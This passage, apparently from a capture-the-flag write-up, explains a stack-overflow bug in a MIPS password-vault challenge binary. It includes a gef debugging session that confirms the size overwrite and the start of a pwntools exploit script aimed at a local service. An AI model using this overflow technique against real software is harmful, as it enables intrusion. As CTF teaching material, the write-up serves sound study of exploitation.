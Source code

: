    * Specify a number of passwords of `ord('\r')` (or 13);
   * The application will reply that we can store 13 passwords of 76 bytes;
   * Enter a first password with only `\n`

This will overwrite the number of passwords stored in `passwords[0]` to 10,
allowing us to write 12 passwords of 102 bytes (i.e. 1224 bytes), which results
in a stack overflow.

The vulnerability can  be asserted by setting a breakpoint before and after
the first call to `read_passwords`.


```bash
gef➤  b *0x004019BC
Breakpoint 1 at 0x4019bc
gef➤  r
[...]
|                             |
|  1. View passwords          |
|  2. Enter new passwords     |
|  3. View admin password     |
|  4. Exit                    |
|                             |
2
How many passwords do you want to store? : 13
You can store 13 passwords of 76 length, enjoy!
Enter your passwords, one per line

Breakpoint 1, 0x004019bc in enter_vault ()
gef➤  p/x $a0-4
0x7fff62d8
gef➤  x/x 0x7fff62d8
0x7fff62d8:     0x0000000d   # << current size, before the call to read_passwords(
gef➤  advance *0x004019c4
                             # << enter an empty first password (only \n)
gef➤  x/x 0x7fff62d8
0x7fff62d8:     0x0000000a   # << new size, after the call
```

And if we populate the 12 remaining passwords with "A"*102 the return address
(`$ra` register) gets corrupted, which we can observe by taking the exit:

{{ img(src="https://i.imgur.com/INggKTu.png" title="image_alt") }}


### Exploitation ###


#### Controlling $pc ####

So we are now able to make the program crash. To know the exact offset of `$pc`,
I've used the De Bruijn pattern from `gef` and `pwntools`.

```python
if __name__ == "__main__":
    HOST, PORT = "localhost", 12234
    r = remote(HOST, PORT)
    r.recvuntil("Here's your OTP challenge : \n")
    chal = r.readline().strip()
    resp = validate(chal)
    r.sendline(resp)

    log.info("poisoing buf[-1] with \\r")
    r.sendline("2")
    r.recvuntil('How many passwords do you want to store? : ')
    l = 13 # \r
    r.sendline(str(l))
    r.recvline()
```